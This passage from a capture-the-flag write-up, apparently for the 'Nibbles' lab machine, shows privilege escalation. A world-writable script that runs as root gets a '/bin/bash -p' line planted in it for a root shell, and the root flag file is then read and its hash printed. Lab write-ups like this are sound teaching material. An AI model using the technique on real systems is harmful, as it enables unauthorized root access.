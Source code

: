 ### **Vulnerability Explanation:**

The file **/home/nibbler/personal/stuff/monitor.sh** is world-writable. The content of the file can be modified to drop a shell. When running the file as root, the attacker will be get a root shell.

```bash
# line in added at the top of the script, just after the shebang line.
/bin/bash -p 
```

![](Nibbles.assets/image-20210427004934185.png) 

![](Nibbles.assets/image-20210427005056993.png)

### Root.txt

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```

![](Nibbles.assets/image-20210427005421970.png)

> root.txt flag: `d9ae263a345701460f51766ae70e5e26`

